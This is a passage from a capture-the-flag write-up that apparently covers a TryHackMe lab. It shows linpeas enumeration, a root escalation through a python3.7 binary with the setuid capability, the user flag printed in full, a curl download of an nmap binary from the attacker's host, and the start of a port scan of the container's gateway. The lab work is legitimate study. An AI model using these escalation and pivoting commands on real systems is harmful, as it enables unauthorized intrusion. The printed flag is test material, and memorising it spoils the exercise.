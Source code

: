 ```console
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  131k  100  131k    0     0   152k      0 --:--:-- --:--:-- --:--:--  152k
daemon@4a70924bafa0:/tmp$ chmod +x linpeas.sh
daemon@4a70924bafa0:/tmp$ ./linpeas.sh
```
- In the script found `python3.7` as root capabilities
```console
[+] Capabilities
/usr/bin/python3.7 = cap_setuid+ep
```
- So upgraded to a shell with python 
```console
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@4a70924bafa0:/tmp# whoami
root
```
- Got the user flag.
```console
root@4a70924bafa0:/home# find / -name "user.txt" 2>/dev/null
/root/user.txt
root@4a70924bafa0:/home# cat /root/user.txt
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
- There was nothing more interesting in the  `linpeas` output, so loaded `nmap` binary to the system for further enumeration.
```console
root@4a70924bafa0:/tmp# curl http://10.8.0.150/nmap -o nmap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 5805k  100 5805k    0     0  1064k      0  0:00:05  0:00:05 --:--:-- 1273k
root@4a70924bafa0:/tmp# chmod +x nmap
```
- For the purpose of scanning I chose the default gateway which is `172.17.0.1`
```console
root@4a70924bafa0:/tmp# ./nmap -p- 172.17.0.1 --min-rate=700 -vvv | tee nmap.log
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-10-22 05:50 UTC
Initiating ARP Ping Scan at 05:50
Scanning 172.17.0.1 [1 port]
Completed ARP Ping Scan at 05:50, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:50
Completed Parallel DNS resolution of 1 host. at 05:50, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 05:50
Scanning ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) [65535 ports]
Discovered open port 80/tcp on 172.17.0.1
Discovered open port 22/tcp on 172.17.0.1
Increasing send delay for 172.17.0.1 from 0 to 5 due to 11 out of 32 dropped probes since last increase.
SYN Stealth Scan Timing: About 10.96% done; ETC: 05:54 (0:04:12 remaining)
Increasing send delay for 172.17.0.1 from 5 to 10 due to 11 out of 33 dropped probes since last increase.
SYN Stealth Scan Timing: About 21.63% done; ETC: 05:54 (0:03:41 remaining)
Increasing send delay for 172.17.0.1 from 10 to 20 due to 11 out of 33 dropped probes since last increase.
SYN Stealth Scan Timing: About 32.31% done; ETC: 05:54 (0:03:11 remaining)
Increasing send delay for 172.17.0.1 from 20 to 40 due to 11 out of 29 dropped probes since last increase.
SYN Stealth Scan Timing: About 42.98% done; ETC: 05:54 (0:02:41 remaining)
Increasing send delay for 172.17.0.1 from 40 to 80 due to 13 out of 42 dropped probes since last increase.
SYN Stealth Scan Timing: About 53.65% done; ETC: 05:54 (0:02:10 remaining)
Increasing send delay for 172.17.0.1 from 80 to 160 due to 11 out of 33 dropped probes since last increase.
SYN Stealth Scan Timing: About 64.33% done; ETC: 05:54 (0:01:40 remaining)
```